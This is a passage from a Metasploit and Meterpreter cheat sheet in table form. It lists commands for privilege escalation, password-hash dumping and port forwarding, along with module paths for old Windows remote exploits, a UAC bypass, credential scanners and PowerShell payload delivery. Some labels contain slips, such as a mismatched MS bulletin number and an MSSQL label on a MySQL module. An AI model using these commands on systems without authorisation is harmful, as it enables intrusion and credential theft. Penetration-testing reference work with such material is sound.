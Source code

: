 | getsystem | Meterpreter attempts priviledge escalation the target |
| hashdump | Meterpreter attempts to dump the hashes on the target |
| portfwd add –l 3389 –p 3389 –r target | Meterpreter create port forward to target machine |
| portfwd delete –l 3389 –p 3389 –r target | Meterpreter delete port forward |

## **Common Metasploit Modules**

Top metasploit modules.

### Remote Windows Metasploit Modules (exploits)

| Command | Description |
| --- | --- |
| use exploit/windows/smb/ms08_067_netapi | MS08_067 Windows 2k, XP, 2003 Remote Exploit |
| use exploit/windows/dcerpc/ms06_040_netapi | MS08_040 Windows NT, 2k, XP, 2003 Remote Exploit |
| use exploit/windows/smb/ms09_050_smb2_negotiate_func_index | MS09_050 Windows Vista SP1/SP2 and Server 2008 (x86) Remote Exploit |

### Local Windows Metasploit Modules (exploits)

| Command | Description |
| --- | --- |
| use exploit/windows/local/bypassuac | Bypass UAC on Windows 7 + Set target + arch, x86/64 |

### Auxilary Metasploit Modules

| Command | Description |
| --- | --- |
| use auxiliary/scanner/http/dir_scanner | Metasploit HTTP directory scanner |
| use auxiliary/scanner/http/jboss_vulnscan | Metasploit JBOSS vulnerability scanner |
| use auxiliary/scanner/mssql/mssql_login | Metasploit MSSQL Credential Scanner |
| use auxiliary/scanner/mysql/mysql_version | Metasploit MSSQL Version Scanner |
| use auxiliary/scanner/oracle/oracle_login | Metasploit Oracle Login Module |

### Metasploit Powershell Modules

| Command | Description |
| --- | --- |
| use exploit/multi/script/web_delivery | Metasploit powershell payload delivery module |
| post/windows/manage/powershell/exec_powershell | Metasploit upload and run powershell script through a session |
| use exploit/multi/http/jboss_maindeployer | Metasploit JBOSS deploy |
| use exploit/windows/mssql/mssql_payload | Metasploit MSSQL payload |

